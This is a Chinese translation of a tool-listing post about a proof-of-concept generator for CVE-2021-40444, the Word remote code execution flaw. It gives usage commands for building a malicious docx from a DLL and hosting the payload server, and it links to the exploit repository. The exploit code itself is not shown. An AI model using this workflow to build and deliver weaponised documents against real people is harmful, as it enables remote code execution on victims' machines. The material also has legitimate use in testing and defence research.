



# CVE-2021-40444 PoC:利用 CVE-2021-40444(Microsoft Office Word 远程代码执行)的恶意 docx 生成器

> 原文：<https://kalilinuxtutorials.com/cve-2021-40444-poc/>

**CVE-2021-40444 PoC** 是利用 CVE-2021-40444(Microsoft Office Word 远程代码执行)的恶意 docx 生成器

这个脚本的创建是基于对在野外使用的样本 938545 F7 bb 40738908 a 95 da 8 cdeabb 2 a 11 ce 2 ca 36 b 0 f 6 a 74 deda 9378d 380 a 52(docx 文件)的一些逆向工程

你需要先安装 lcab(`**sudo apt-get install lcab**`)

检查`**REPRODUCE.md**`中的手动复制步骤

如果您生成的 cab 不工作，请尝试将 exploit.html URL 指向 calc.cab

**使用**

首先生成一个恶意的 docx 文档，给定一个 DLL，你可以使用在`**test/calc.dll**`的那个，它只是从对`**system()**`的调用中弹出一个`**calc.exe**`

`**python3 exploit.py generate test/calc.dll http://<SRV IP>**`

一旦你生成了恶意的 docx(将在`**out/**`)你就可以设置服务器:

`**sudo python3 exploit.py host 80**`

最后，在 Windows 虚拟机中尝试 docx:

[**Download**](https://github.com/lockedbyte/CVE-2021-40444)